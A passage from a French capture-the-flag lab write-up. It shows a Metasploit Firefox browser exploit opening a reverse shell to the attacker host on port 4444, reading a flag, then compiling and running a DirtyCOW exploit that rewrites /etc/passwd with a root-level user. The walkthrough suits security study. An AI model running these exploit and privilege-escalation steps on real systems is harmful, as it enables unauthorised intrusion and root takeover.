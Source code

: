 ```
[-] 192.168.56.81    firefox_tostring_console_injection - Target 192.168.56.81 has requested an unknown path: /v0/search?q=&sources=Amazon
[-] 192.168.56.81    firefox_tostring_console_injection - Target 192.168.56.81 has requested an unknown path: /v0/sources
[-] 192.168.56.81    firefox_tostring_console_injection - Target 192.168.56.81 has requested an unknown path: /v0/search?q=&sources=Amazon
[-] 192.168.56.81    firefox_tostring_console_injection - Target 192.168.56.81 has requested an unknown path: /v0/sources
[*] 192.168.56.81    firefox_tostring_console_injection - Gathering target information for 192.168.56.81
[*] 192.168.56.81    firefox_tostring_console_injection - Sending HTML response to 192.168.56.81
[-] 192.168.56.81    firefox_tostring_console_injection - Target 192.168.56.81 has requested an unknown path: /favicon.ico
[[-] 192.168.56.81    firefox_tostring_console_injection - Target 192.168.56.81 has requested an unknown path: /v0/sources
[*] 192.168.56.81    firefox_tostring_console_injection - Gathering target information for 192.168.56.81
[*] 192.168.56.81    firefox_tostring_console_injection - Sending HTML response to 192.168.56.81
[-] 192.168.56.81    firefox_tostring_console_injection - Target 192.168.56.81 has requested an unknown path: /favicon.ico
[-] 192.168.56.81    firefox_tostring_console_injection - Target 192.168.56.81 has requested an unknown path: /favicon.ico
[*] Command shell session 1 opened (192.168.56.79:4444 -> 192.168.56.81:42843) at 2022-12-21 13:09:10 +0100
msf6 exploit(multi/browser/firefox_tostring_console_injection) > sessions -i 1
[*] Starting interaction with 1...

id
uid=1000(leopold) gid=1000(leopold) groups=1000(leopold),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),107(lpadmin),124(sambashare)

```

On trouve notre premier flag :

```bash
leopold@leopold:/home/leopold$ cat flag.txt 
924adc9f3f14672ab03903
```

Pour la suite je n'ai rien vu de custom pour passer root mais la machine est vulnérable à `DirtyCOW` :

```bash
leopold@leopold:/home/leopold$ gcc -o dirty dirty.c 
gcc: error trying to exec 'cc1': execvp: No such file or directory
leopold@leopold:/home/leopold$ find / -name cc1 2> /dev/null 
/usr/lib/gcc/i686-linux-gnu/4.7/cc1
leopold@leopold:/home/leopold$ export PATH=/usr/lib/gcc/i686-linux-gnu/4.7/:$PATH
leopold@leopold:/home/leopold$ gcc -o dirty dirty.c 
/tmp/ccVYqtCk.o: In function `generate_password_hash':
dirty.c:(.text+0x16): undefined reference to `crypt'
/tmp/ccVYqtCk.o: In function `main':
dirty.c:(.text+0x4d2): undefined reference to `pthread_create'
dirty.c:(.text+0x508): undefined reference to `pthread_join'
collect2: error: ld returned 1 exit status
leopold@leopold:/home/leopold$ gcc -o dirty dirty.c -lpthread -lcrypt
leopold@leopold:/home/leopold$ ./dirty 
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fik9Kb9f4rF2w:0:0:pwned:/root:/bin/bash

mmap: b7733000
madvise 0
```
